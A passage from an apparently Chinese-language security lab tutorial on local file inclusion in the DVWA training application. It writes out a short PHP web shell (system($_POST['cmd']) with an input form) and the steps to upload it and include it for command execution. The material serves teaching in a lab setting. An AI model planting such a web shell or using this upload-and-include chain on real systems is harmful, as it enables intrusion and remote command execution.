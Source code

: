 我们查看源代码：

![show-source-code-low](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482384925866.png/wm)

我们可以看到造成这样的问题是因为它没有做任何的防范与过滤，使得攻击者有机可乘，访问设备上所有的文件，透露出很多的内容。

## 7. 文件包含进阶

若是你认为本地文件包含只有这样的能耐就错了，攻击手段往往都是通过多种小技巧，利用程序员的粗心来实现。同样本地文件的包含若是只是常看文件的话，价值还是不够大，不能让它曾经盛极一时。

试想我们若是配置着文件上传的功能，我们能做什么呢？

我们可以使用可以上传一个后门程序，然后让其包含进我们的当前页面，使其运行起来。这样我们不仅能够查看还能执行一些命令。

我们在本地准备这样的一个 php 文件（注意实在本地，也就是 shiyanlou 用户的终端里，而不是在虚拟机中，我们需要上传的）：

在终端中执行 `vim test.php` 来创建与编辑文件：

![start-vim](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482476136293.png/wm)

然后输入这样的内容：

```
<?php

system($_POST['cmd']);

echo '<form method="post" action="../../hackable/uploads/test.php"><input type="text" name="cmd"/><input type="submit"/></form>';

?>
```

第一句话是为了使用 cmd 来执行命令，第二句是为了提供一个输入框来输入一些命令，这样不用每次都去修改 URL，非常的麻烦（第二句中的地址如何而来，可以看下文便知）。

接着使用 `:wq` 来将其保存。

然后我们再次登陆 dvwa 中，然后进入 Upload 的上传环境：

![show-dwva-upload](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482476148396.png/wm)

选择浏览，上传我们直接编辑的 test.php 文件，然后上传，上传成功之后会有这样的提示：

![show-upload-success](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482476158878.png/wm)

我们可以看到上传成功的提示中告诉了我们文件所在的路径，这样的提示是不明智，但是同时也让我们文件的包含也更加的容易了。

此时我们再次来到 File Inclusion 的环境中，这次我们将 GET 中 page 的参数值修改成刚刚上传文件所在的路径：

![show-input-box](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482476167728.png/wm)

我们会看到我们提交的 php 脚本被成功的运行了。

我们可在输入框中输入简单的 shell 命令试试：

例如 `pwd`

![show-result](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482476176650.png/wm)
